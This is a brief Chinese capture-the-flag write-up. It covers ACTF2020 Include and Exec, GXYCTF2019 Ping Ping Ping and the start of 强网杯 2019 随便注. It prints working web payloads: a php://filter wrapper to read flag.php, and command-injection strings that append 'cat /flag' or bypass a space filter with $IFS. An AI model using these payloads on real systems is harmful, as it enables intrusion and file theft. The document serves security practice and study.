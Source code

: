 

## [ACTF2020 新生赛]Include

`文件包含`

`exp`

```
?file=php://filter/convert.base64-encode/resource=flag.php
```

## [ACTF2020 新生赛]Exec

`命令执行`

没有任何过滤,`exp`

```
1；cat /flag
```

## [GXYCTF2019]Ping Ping Ping

过滤很严格 最后使用

```
1;cat$IFS$9`ls`
```

然后查看源代码看到`flag`

## [强网杯 2019]随便注

`堆叠注入`

![](./img/4-1.png)

注入发现为`单引号注入`

